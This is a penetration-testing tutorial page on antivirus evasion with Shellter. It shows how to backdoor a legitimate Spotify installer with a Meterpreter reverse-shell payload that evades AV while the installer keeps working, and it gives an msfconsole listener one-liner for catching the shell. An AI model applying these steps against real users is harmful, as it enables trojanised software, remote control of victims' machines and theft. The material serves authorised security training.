





---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Automating Evasion Techniques

The [previous example](evasion-via-thread-injection.md) demonstrated how to manually update a script to evade AV engines. However, this process can take trial and error or can be too complex to undertake by hand. Fortunately, when these circumstances arise there are automated tools.

## Shellter

[Shellter](https://www.shellterproject.com/) is a dynamic shellcode injection tool and one of the most popular free tools capable of bypassing antivirus software. It uses a number of novel and advanced techniques to backdoor a valid and non-malicious executable file with a malicious shellcode payload.

It essentially performs a thorough analysis of the target PE (Portable Executable) file and the execution paths. It then determines where it can inject shellcode, without relying on traditional injection techniques that are easily caught by AV engines. Those include changing of PE (Portable Executable) file section permissions, creating new sections, and so on. Also, Shellter attempts to use the existing PE [Import Address Table](https://en.wikipedia.org/wiki/Portable\_Executable#Import\_Table) (IAT) entries to locate functions that will be used for the memory allocation, transfer, and execution of a payload.

Shellter's [Tips and Tricks](https://www.shellterproject.com/tipstricks/) page lists several considerations the most important are listed below:

* **Do not use packed executables**
* **Do not use Shellter with executables produced by other pen-testing tools or frameworks:** These have possibly been flagged already by many AV vendors. Since Shellter actually traces the execution flow of the target application, there is also a risk of infecting your own machine
* **Use Stealth Mode:** as of v5.0 Shellter offers a Stealth Mode which preserves the functionality of the original executable (e.g. a backdoored installer will still actually install the program after executing the backdoor)

### Example

This will be a simple example using Shellter's free version to backdoor a legitimate copy of Spotify's [Windows 32-Bit Installer](https://www.spotify.com/us/download/windows/). Shellter is designed to be run on Windows so&#x20;

[wine](https://www.winehq.org/) will be needed to run it on the Linux machine. Once both wine and Shellter are installed it can be launched from the command line via the `shellter` command. This will launch a new console running under wine:

<figure><figcaption><p>Shellter's startup console</p></figcaption></figure>

Shellter can run in either _Auto_ (`A`) or _Manual_ (`M`) mode. In Manual mode, the tool will launch the PE the attacker wants to use for injection and allows users to manipulate it on a more granular level. This  mode can be used to highly customize the injection process in case the automatically selected options fail. Shellter states on their page that if Manual mode is used the user should make it a point to thoroughly understand what each feature does. Also they recommend that Manual users to go sufficiently deep into the execution flow (at least 50K instructions) to find a unique injection point.

For the purpose of this example Auto mode should be sufficient. Once the mode is selected it will ask for the valid executable into which the payload will be injected:

<figure><figcaption><p>Selecting a mode and PE target in Shellter</p></figcaption></figure>

Once the payload is selected, Shellter begins creating the backdoored executable. Before completion it will ask several other questions.

<figure><figcaption><p>Stealth mode and payload configuration in Shellter</p></figcaption></figure>

First it asks if Stealth Mode is desired (`Y`/`N`). As noted above, Stealth Mode preserves the functionality of the valid PE target.

After Stealth Mode is selected it asks for a Payload. Several options are listed, to select from those enter `L` and then the numeric index of the desired payload. Alternatively, a custom payload can be supplied by entering `C` and then directing Shellter to that payload.

In some recent testing, it appears that Shellter is not working for Windows clients with non-Meterpreter payloads. For that reason, payload 1 is selected. It then asks for the IP and port of the reverse shell listener.

At this point the program finishes its execution and the functioning of the executable is verified by Shellter:

<figure><figcaption><p>PE Verification by Shellter</p></figcaption></figure>

The exploit can then be transferred to the target machine and executed. Prior to execution a Meterpreter listener should be launched. As documented in the [Metasploit section](../../exploit-frameworks/metasploit/#reverse-shell), this can be achieved with the following one-liner:


```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $rev_ip; set LPORT $rev_port;run;"
```


Once the payload is executed on a victim machine it causes a connection to the shell. Stealth mode also appears to function properly as after the connection the target machine proceeds with the download and installation of Spotify:

<figure><figcaption><p>Backdoored installer still functions as an installer</p></figcaption></figure>
